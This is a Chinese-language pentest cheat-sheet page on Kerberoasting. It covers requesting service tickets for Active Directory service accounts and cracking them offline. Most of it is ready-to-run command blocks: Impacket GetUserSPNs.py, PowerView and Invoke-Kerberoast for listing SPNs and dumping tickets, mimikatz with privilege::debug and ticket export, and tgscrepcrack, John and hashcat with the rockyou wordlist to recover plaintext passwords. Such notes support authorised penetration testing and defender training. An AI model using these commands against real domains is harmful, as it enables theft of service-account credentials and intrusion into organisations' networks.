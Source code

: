 ```yaml
---
description: 基于Kerberos认证 / 获取TGS后进行离线暴破从而获取明文密码
---
```


# ✔️ Kerberoasting攻击

## 先决条件

* 已经获得目标域内的基本立足点（普通用户权限即可）
* 需要目标域内用户账户的SPN
* 需要获取到服务票据（TGS）
* 暴破工具 + 字典文件

## 常用工具

### Impacket

* 常用脚本：**GetUserSPNs.py**

```bash
# 识别SPN
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx
# 请求服务票据TGS
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request
# 导出票据文件
python3 GetUserSPNs.py target.com/svc_tgs:xxxxxxxxxxxxxx -dc-ip 10.10.xxx.xxx -request -outputfile hash.txt
```

### Powershell

* 常用脚本：**PowerView.ps1**

```powershell
# 识别SPN
Get-NetUser -username "svc_tgs" -SPN | select samaccountname, primarygroupid, serviceprincipalname

# Empire，指定获取到的票据以适用于hashcat暴破的格式输出
Import-Module .\invoke-kerberoast.ps1
Invoke-Kerberoast -Domain target.com -OutputFormat Hashcat | fl

# 导出所有票据（和mimikatz类似）
Import-Module .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

### mimikatz.exe

```powershell
mimikatz.exe
# 先提升权限
privilege::debug
# 查看当前票据
kerberos::list
# 获取当前的所有票据并导出
sekurlsa::tickets /export
# 将导出的.kirbi文件转换成txt文件，在用john the ripper或者hashcat进行离线暴破
```

### kerberoast

* 常用脚本：**tgscrepcrack.py**

```bash
# 离线暴破
python3 tgscrepcrack.py rockyou.txt xxxxxxxxxxxxxxxxxxxxx.kirbi
```

### John the Ripper

```bash
# 离线暴破
john --format=krb5tgs hash.txt rockyou.txt
```

### Hashcat

```bash
# 离线暴破
hashcat -m 13100 hash.txt rockyou.txt
```

{% hint style="info" %}
Kerberoasting攻击在内网渗透中很常见，本质上是通过获取目标域内的服务账户的服务票据（TGS），然后通过离线爆破来还原出明文密码。该攻击方式仅需要有目标域内的普通用户账户权限即可向DC请求相关的TGS。
{% endhint %}
